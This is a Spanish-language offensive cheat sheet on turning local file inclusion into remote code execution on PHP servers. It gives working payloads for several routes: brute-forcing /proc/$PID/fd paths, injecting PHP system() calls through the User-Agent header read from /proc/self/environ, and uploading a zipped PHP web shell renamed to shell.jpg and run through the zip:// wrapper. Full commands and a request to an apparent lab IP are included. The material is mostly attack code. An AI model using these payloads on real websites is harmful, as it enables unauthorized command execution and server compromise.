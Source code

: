 ### Via /proc/*/fd/*

Esto en caso de poder cargar archivos:

1.    Sube muchos shells (por ejemplo: 100)
    
2.   Incluya [http://example.com/index.php?page=/proc/$PID/fd/$FD](http://example.com/index.php?page=/proc/$PID/fd/$FD) , con $ PID = PID del proceso (puede ser forzado en este caso un valos del 1-100 como minimo) y $ FD el descriptor del archivo (puede ser forzado también)

#### /proc/self/fd ó /dev/fd/

Dentro de los directorios ya sea /proc/self/fd/ o /dev/fd/ podemos encontrar ciertos archivos con la siguiente estructura:

-   /proc/self/fd/x
-   /dev/fd/x

Siendo x un número.

Estos archivos están directamente relacionados con algunos procesos y registros del sistema. Por lo que quizás, uno de estos archivos puede que nos muestre información del servidor web al que estamos accediendo, y, con ello, algún campo que sea editable por nosotros.

maquina backdoor HTB,

ejemplo real:

[https://infosecwriteups.com/bugbounty-journey-from-lfi-to-rce-how-a69afe5a0899](https://infosecwriteups.com/bugbounty-journey-from-lfi-to-rce-how-a69afe5a0899)


### Via /proc/self/environ

Al igual que en los logs de apache en este archivo se refleja el User-Agent:

```bash
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?php system('whoami'); ?>
```

### Via carga de archivo ZIP

Cargue un archivo ZIP que contenga un shell PHP comprimido y acceda a:

```bash
example.com/page.php?file=zip://path/to/zip/hello.zip%23rce.php
```

```bash
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

```bash
apt install phpX.Y-zip
echo '<?php system($_GET['cmd']); ?>' > exec.php
zip malicious.zip exec.php
rm exec.php

http://134.209.184.216:30489/index.php?language=zip://malicious.zip%23exec.php&cmd=id
```
